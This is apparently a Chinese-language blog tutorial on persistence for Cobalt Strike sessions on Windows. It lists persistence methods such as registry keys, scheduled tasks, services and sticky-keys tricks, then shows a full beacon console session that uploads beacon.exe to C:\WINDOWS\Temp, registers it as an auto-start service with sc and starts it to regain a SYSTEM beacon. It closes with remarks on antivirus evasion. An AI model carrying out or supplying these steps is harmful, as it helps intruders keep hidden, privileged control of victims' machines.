

# 0x00 简介

权限维持以启动CS会话为例,不涉及账号隐藏等等,
常见的可以用于启动会话的权限维持方式。

Windows

1. 注册表

2. 启动项

3. 计时任务

4. 服务

5. shift或者放大镜

6. 各种劫持 

7. 利用其他安装的软件


网上都有相关资料这里我就不详细讲述了，这里根据YouTube作者视频讲的"服务"，所以这里我也以它为例。


# 0x01 服务

首先生成一个windows Service exe



```
beacon> cd C:\WINDOWS\Temp\
[*] cd C:\WINDOWS\Temp\
[+] host called home, sent: 24 bytes

beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 19 bytes
[*] Listing: C:\WINDOWS\Temp\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     11/15/2014 16:12:21   vmware-SYSTEM
 

beacon> upload /root/beacon.exe
[*] Tasked beacon to upload /root/beacon.exe as beacon.exe
[+] host called home, sent: 309782 bytes
beacon> shell sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[*] Tasked beacon to run: sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[+] host called home, sent: 93 bytes
[+] received output:
[SC] CreateService 成功


beacon> shell sc description "thisisserver" "description"
[*] Tasked beacon to run: sc description "thisisserver" "description"
[+] host called home, sent: 74 bytes
[+] received output:
[SC] ChangeServiceConfig2 成功


beacon> shell sc config "thisisserver" start= auto
[*] Tasked beacon to run: sc config "thisisserver" start= auto
[+] host called home, sent: 67 bytes
[+] received output:
[SC] ChangeServiceConfig 成功


beacon> shell net start "thisisserver"
[*] Tasked beacon to run: net start "thisisserver"
[+] host called home, sent: 55 bytes

```

执行后返回一个system beacon


# 0x02 文末

其实在权限维持的时候使用启动CS server 不是个好的选择，同时这种权限维持对server的免杀要求较高,
利用常用程序的dll感觉还不错。

### 本文如有错误，请及时提醒，以免误导他人
